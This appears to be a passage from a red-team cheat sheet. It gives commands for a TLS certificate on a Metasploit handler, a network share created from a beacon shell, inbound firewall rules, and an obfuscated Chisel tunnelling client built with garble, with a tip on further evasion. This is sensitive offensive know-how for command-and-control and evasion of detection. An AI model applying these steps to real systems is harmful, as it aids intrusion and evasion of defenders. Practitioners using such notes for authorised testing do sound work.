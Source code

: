 ```
certbot certonly --agree-tos --standalone -m goodguy@gmail.com -d fw.vaultsec.xyz
```

##### metasploit

```
cat privkey.pem cert.pem > nasa.pem

# use
set HandlerSSLCert /home/kali/self_cert/nasa.pem
```


### Create Network Share

```
beacon> shell mkdir c:\likes

beacon> shell net share DataShare=c:\likes

# access
> dir \\host\datashare
```

### Firewall

```
# add ingress port
> New-NetFirewallRule -DisplayName 'HTTP-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('80', '443')
```

### Chisel

#### Build

To generate obfuscated Chisel binary, first install [burrowers/garble](https://github.com/burrowers/garble), then clone, and compile [jpillora/chisel](https://github.com/jpillora/chisel).

> Note, to further evade, consider removing the server components from a client build. 

```
# install
$ go install mvdan.cc/garble@latest

# clone
$ git clone https://github.com/jpillora/chisel

# compile server
$ cd chisel
$ make linux

# compile client
$ GOOS=windows garble -literals -tiny build -trimpath -o chisel_garble-cli.exe
```

